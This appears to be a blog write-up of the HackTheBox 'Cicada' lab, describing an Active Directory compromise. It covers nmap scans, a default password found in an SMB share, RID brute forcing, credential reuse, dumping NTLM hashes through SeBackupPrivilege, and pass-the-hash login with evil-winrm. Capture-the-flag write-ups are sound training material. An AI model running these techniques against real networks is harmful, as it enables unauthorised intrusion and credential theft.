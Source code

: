 ```yaml
---
layout: post
title: "HackTheBox: Cicada"
description: A writeup for Hackthebox Cicada
date:   2024-10-01 12:06:31 +0000
image:  '/images/post/cicada.jpg'
tags:   [HackTheBox,htb]
---
```

## Setup
`mkdir -p ~/ctf/HackTheBox/cicada/scans; cd ~/ctf/HackTheBox/cicada`
IP Address: 10.10.11.35


`echo "10.10.11.35 cicada.htb" | sudo tee -a /etc/hosts`
10.10.11.35 cicada.htb

***
### Enumeration 

`nmap -sC -sV -Pn -p- cicada.htb -oN scans/nmap -vv`
`nmap -sC -sV -p- -T5 --min-rate 2500 -oN scans/nmap_2 cicada.htb`
```
# nmap findings


PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack
88/tcp    open  kerberos-sec   syn-ack
135/tcp   open  msrpc          syn-ack
139/tcp   open  netbios-ssn    syn-ack
389/tcp   open  ldap           syn-ack
445/tcp   open  microsoft-ds   syn-ack
464/tcp   open  kpasswd5       syn-ack
593/tcp   open  http-rpc-epmap syn-ack
636/tcp   open  ldapssl        syn-ack
5985/tcp  open  wsman          syn-ack
50767/tcp open  unknown        syn-ack

```



Found Note from HR.txt in SMB guest share 
```

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp

```

Using RID/ SID Brute forcing we get the following 
`lookupsid.py guest@10.10.11.35 -no-pass`
`crackmapexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute
`
```


Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 10.10.11.35
[*] StringBinding ncacn_np:10.10.11.35[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-917908876-1423158569-3159038727
498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CICADA\Administrator (SidTypeUser)
501: CICADA\Guest (SidTypeUser)
502: CICADA\krbtgt (SidTypeUser)
512: CICADA\Domain Admins (SidTypeGroup)
513: CICADA\Domain Users (SidTypeGroup)
514: CICADA\Domain Guests (SidTypeGroup)
515: CICADA\Domain Computers (SidTypeGroup)
516: CICADA\Domain Controllers (SidTypeGroup)
517: CICADA\Cert Publishers (SidTypeAlias)
518: CICADA\Schema Admins (SidTypeGroup)
519: CICADA\Enterprise Admins (SidTypeGroup)
520: CICADA\Group Policy Creator Owners (SidTypeGroup)
521: CICADA\Read-only Domain Controllers (SidTypeGroup)
522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
525: CICADA\Protected Users (SidTypeGroup)
526: CICADA\Key Admins (SidTypeGroup)
527: CICADA\Enterprise Key Admins (SidTypeGroup)
553: CICADA\RAS and IAS Servers (SidTypeAlias)
571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
1000: CICADA\CICADA-DC$ (SidTypeUser)
1101: CICADA\DnsAdmins (SidTypeAlias)
1102: CICADA\DnsUpdateProxy (SidTypeGroup)
1103: CICADA\Groups (SidTypeGroup)
1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1109: CICADA\Dev Support (SidTypeGroup)
1601: CICADA\emily.oscars (SidTypeUser)
```

```
User list:
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```
using crackmapexec we get `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

![a3dc4c40b6f42502459af7e6395c1254.png]({{site.baseurl}}/images/post/a3dc4c40b6f42502459af7e6395c1254.png)

we get another password from description
`david.orelious:aRt$Lp#7t*VQ!3`


We get access to dev share 
![34441f2039f6b63a54906459f729cc07.png]({{site.baseurl}}/images/post/34441f2039f6b63a54906459f729cc07.png)

in dev share we find password for emily.oscars
![a657aa4feeb1cc95ddea85677ba42e46.png]({{site.baseurl}}/images/post/a657aa4feeb1cc95ddea85677ba42e46.png)

`emily.oscars:Q!3@Lp#M6b*7t*Vt`


***
# user flag
Location: C:\Users\emily.oscars.CICADA\Desktop | Flag: e83a7##################################
```

***
#### Privilege Escalation

```

using assigned privileges we use **SeBackupPrivilege**
![dac3b5623835eb4b5f326cc61c9692a4.png]({{site.baseurl}}/images/post/dac3b5623835eb4b5f326cc61c9692a4.png)
![f64d2c81ec0ab99f35e7378c710d136b.png]({{site.baseurl}}/images/post/f64d2c81ec0ab99f35e7378c710d136b.png)
![f6bf22feda995b69a53d929da6340581.png]({{site.baseurl}}/images/post/f6bf22feda995b69a53d929da6340581.png)
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

using Pass-the-hash `evil-winrm -i 10.10.11.35 -u 'administrator' -H '2b87e7c93a3e8a0ea4a581937016f341' 
`


# root flag
Location: :\Users\Administrator\Desktop | Flag: b1dc7##################################
```

```